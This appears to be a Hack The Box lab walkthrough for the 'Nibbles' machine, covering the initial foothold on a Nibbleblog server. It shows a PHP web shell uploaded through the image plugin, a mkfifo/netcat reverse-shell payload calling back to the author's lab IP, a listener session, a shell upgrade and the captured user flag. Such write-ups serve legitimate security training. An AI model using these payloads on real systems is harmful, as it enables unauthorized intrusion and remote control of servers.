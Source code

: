 ```yaml
---
icon: square-terminal
---
```


# Nibles - Initial Foothold

## Testing My image plugin

<figure><img src=".gitbook/assets/2024-11-15 15_15_13-HTB Viewer - Work - Microsoft​ Edge.png" alt=""><figcaption></figcaption></figure>

Uploading code



```
┌┌─[us-academy-6]─[10.10.14.97]─[htb-ac-567828@htb-fhxvxejky5]─[~]
└──╼ [★]$ cat test.php 
<?php system('id'); ?>

```

<figure><img src=".gitbook/assets/2024-11-15 15_17_05-Settings.png" alt="We got those errors"><figcaption><p>We got those errors</p></figcaption></figure>



<figure><img src=".gitbook/assets/2024-11-15 15_23_34-HTB Viewer - Work - Microsoft​ Edge.png" alt=""><figcaption><p>We see those two files with recent modified date, meaning our upload was successful.</p></figcaption></figure>

Testing command execution



```
└──╼ [★]$ curl http://10.129.128.181/nibbleblog/content/private/plugins/my_image/image.php
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)

```

These are some cheat sheets to create a reverse shell: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)and [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

Using follow php code and upload to image plugin:

```
└──╼ [★]$ cat test.php 
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.97 9443 >/tmp/f"); ?>


```

Activate listener and run the code:

```
┌─[us-academy-6]─[10.10.14.97]─[htb-ac-567828@htb-fhxvxejky5]─[~]
└──╼ [★]$ curl http://10.129.128.181/nibbleblog/content/private/plugins/my_image/image.php

```

```
┌─[us-academy-6]─[10.10.14.97]─[htb-ac-567828@htb-fhxvxejky5]─[~]
└──╼ [★]$ nc -lvnp 9443
listening on [any] 9443 ...
connect to [10.10.14.97] from (UNKNOWN) [10.129.128.181] 48560
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)


```

Upgrading shell

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ 

```

Checking flag:

```
nibbler@Nibbles:/home/nibbler$ cat user.txt
cat user.txt
79c03865431abf47b90ef24b9695e148

```
